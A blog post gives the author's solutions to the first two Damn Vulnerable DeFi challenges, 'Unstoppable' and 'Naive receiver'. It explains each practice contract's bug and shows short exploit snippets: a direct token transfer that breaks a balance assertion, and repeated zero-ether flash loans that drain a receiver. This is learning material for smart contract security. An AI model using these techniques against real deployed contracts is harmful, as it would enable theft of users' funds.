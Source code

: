 ```yaml
---
title: Damn Vulnerable DeFi Solution
categories: [Security, DeFi]
---
```


[中文]()/English

This post collects my solution to [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html), an excellent DeFi vulnerabilities practice platform. It's really a good introduction for whom new to smart contract vulnerabilities. Compared to [Ethernaut](https://ethernaut.openzeppelin.com/), challenges here are more similar to real-world vulnerabilities, and the way we play it is more friendly. I also referred to  some other blogs when finishing these challenges, thanks to these authors. 



Before starting this series of challenges, I recommend you to learn UniswapV1 and UniswapV2. Not having any DeFi knowledge will make you struggle in basic concepts, and understanding these two protocols is almost enough for this practice. I strongly recommend two blogs where I learned these two protocols: 

[Programming DeFi: Uniswap.](https://jeiwan.net/posts/programming-defi-uniswap-1/)

 and 

[Programming DeFi: Uniswap V2.](https://jeiwan.net/posts/programming-defi-uniswapv2-1/)

The author of these two wonderful blogs also wrote another well-known blog:

[Building Blockchain in Go](https://jeiwan.net/posts/building-blockchain-in-go-part-1/).



Most details are omitted in this blog, and the full source code of my solution can be found [here](https://github.com/y1cunhui/damn-vulnerable-defi/tree/myanswer).

## 1. Unstoppable

The bug is in this line of `UnstoppableLender.sol`:

```solidity
assert(poolBalance == balanceBefore);
```

Although as the comment says, it's ensured by the `deposit` function; users can also send tokens to this contract directly without calling `deposit` and without triggering `fallback`(since it's ERC20 token). So the solution is simple, just transfer tokens directly to the pool:

```javascript
hacker = await this.token.connect(attacker);
await this.token.transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
```

## 2. Naive receiver

To drain the user's contract, we just need to flash loan `0 ether` each time:

```javascript
await this.pool.connect(attacker);
for (i=0;i<10;i++) {
    await this.pool.flashLoan(this.receiver.address, 0);
}
```
